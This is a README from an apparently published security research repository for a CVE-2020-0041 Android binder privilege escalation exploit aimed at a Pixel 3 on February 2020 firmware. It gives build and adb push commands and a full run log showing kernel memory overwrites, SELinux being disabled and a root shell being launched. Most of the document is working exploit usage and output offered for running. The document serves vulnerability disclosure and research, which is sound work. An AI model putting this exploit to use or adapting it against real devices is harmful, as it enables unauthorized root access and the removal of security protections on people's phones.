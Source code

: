# CVE-2020-0041: privilege escalation exploit

This folder contains the local privilege escalation exploit we wrote for CVE-2020-0041. 
The exploit is provided with hardcoded offsets for a Pixel 3 device running the February 
2020 firmware (QQ1A.200205.002). The exploit needs to be adapted before being able to 
run it on other vulnerable devices or Pixel 3 devices with different firmware versions.

The exploit disables SELinux and then launches a root shell.

## Testing the exploit

The exploit can be built by simply running "make" with the Android NDK in the path. It can also 
be pushed to a phone attached with adb by doing "make all push" (warnings removed for brevity):

```
user@laptop:~/CVE-2020-0041/lpe$ make all push
Building Android
NDK_PROJECT_PATH=. ndk-build NDK_APPLICATION_MK=./Application.mk
make[1]: Entering directory `/home/user/CVE-2020-0041/lpe'
[arm64-v8a] Compile        : poc <= exploit.c
[arm64-v8a] Compile        : poc <= endpoint.c
[arm64-v8a] Compile        : poc <= pending_node.c
[arm64-v8a] Compile        : poc <= binder.c
[arm64-v8a] Compile        : poc <= log.c
[arm64-v8a] Compile        : poc <= helpers.c
[arm64-v8a] Compile        : poc <= binder_lookup.c
[arm64-v8a] Compile        : poc <= realloc.c
[arm64-v8a] Compile        : poc <= node.c
[arm64-v8a] Executable     : poc
[arm64-v8a] Install        : poc => libs/arm64-v8a/poc
make[1]: Leaving directory `/home/user/CVE-2020-0041/lpe'
adb push libs/arm64-v8a/poc /data/local/tmp/poc
libs/arm64-v8a/poc: 1 file pushed. 4.3 MB/s (39016 bytes in 0.009s)
```

Now just run /data/local/tmp/poc from an adb shell to see the exploit running:

```
blueline:/ $ /data/local/tmp/poc
[+] Mapped 200000
[+] selinux_enforcing before exploit: 1
[+] pipe file: 0xffffffd9c67c7700
[*] file epitem at ffffffda545d7d00
[*] Reallocating content of 'write8_inode' with controlled data.[DONE]
[+] Overwriting 0xffffffd9c67c7720 with 0xffffffda545d7d50...[DONE]
[*] Write done, should have arbitrary read now.
[+] file operations: ffffff97df1af650
[+] kernel base: ffffff97dd280000
[*] Reallocating content of 'write8_selinux' with controlled data.[DONE]
[+] Overwriting 0xffffff97dfe24000 with 0x0...[DONE]
[*] init_cred: ffffff97dfc300a0
[+] memstart_addr: 0xffffffe700000000
[+] First level entry: ceac5003 -> next table at ffffffd9ceac5000
[+] Second level entry: f173c003 -> next table at ffffffd9f173c000
[+] sysctl_table_root = ffffff97dfc5a3f8
[*] Reallocating content of 'write8_sysctl' with controlled data.[DONE]
[+] Overwriting 0xffffffda6da8d868 with 0xffffffda49ced000...[DONE]
[+] Injected sysctl node!
[*] Node write8_inode, pid 7058, kaddr ffffffda0723f900
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_selinux, pid 6848, kaddr ffffffd9c9fa2400
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_sysctl, pid 7110, kaddr ffffffda67e7d180
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[+] Cleaned up sendmsg threads
[*] epitem.next = ffffffd9c67c7720
[*] epitem.prev = ffffffd9c67c77d8
^[[*] Launching privileged shell
root_by_cve-2020-0041:/ # id   
uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0
root_by_cve-2020-0041:/ # getenforce
Permissive
root_by_cve-2020-0041:/ # 
```
